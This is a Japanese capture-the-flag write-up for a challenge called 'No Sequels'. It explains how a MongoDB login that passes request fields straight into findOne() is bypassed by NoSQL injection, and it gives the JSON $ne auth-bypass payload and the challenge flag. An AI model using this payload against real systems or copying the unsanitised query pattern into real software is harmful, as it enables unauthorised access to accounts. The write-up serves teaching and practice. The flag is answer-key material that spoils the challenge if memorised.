 # No Sequels

# 手順
ソースを読むと`db.collection.findOne()`から[MongoDB]が使われてると思われる。よって[NoSQL Injection]を用いる。  
ユーザー入力が絡む箇所は  
```javascript
var user = req.body.username;
var pass = req.body.password;
```
であり、これが使われている場所を見ると
```javascript
var query = {
        username: user,
        password: pass
}

db.collection('users').findOne(query, function (err, user) {
    // ...
}
```

となっている。  
以下では
```javascript
var query = {
	username: req.body.username, // リクエストのusernameパラメータ
	password: req.body.password  // リクエストのpasswordパラメータ
}
```

として考える。
findやfindOne関数は受け取ったクエリに対する検索を行う。そしてこのクエリは単に値に文字列が来た場合はキーがそれに一致するものを探すがJSONを指定することで複雑な条件句で検索することができる。  
MongoDBの検索演算子には例えば$ne(指定した値でない)や$in(指定した配列に含まれている)といったものがある。クエリの値に`{operator: operand}`といったJSONを指定することでこの演算子で一致した結果を返すことができる。  
したがって

```javascript
var query = {
	username: {"$ne": "unexist"},
	password: {"$ne": "unexist"}
}
```
とすればusernameがunexistでなくpasswordがunexistでないものを検索することになる。  
このようにJSONを注入するためにはリクエストのヘッダに`content-Type:application/json`をセットし(デフォルトは`application/x-www-form-urlencode`)、下記ペイロードをリクエストボディに設定して送信すれば良い。

## Payload
リクエストボディに以下のJSONを記述して送り込む
```javascript
{
	"username": {"$ne": "unexist"},
	"password": {"$ne": "unexist"}
}
```
但し、unexistの部分はDB上に存在しない文字であればなんでも良い

## Flag
actf{no_sql_doesn't_mean_no_vuln}
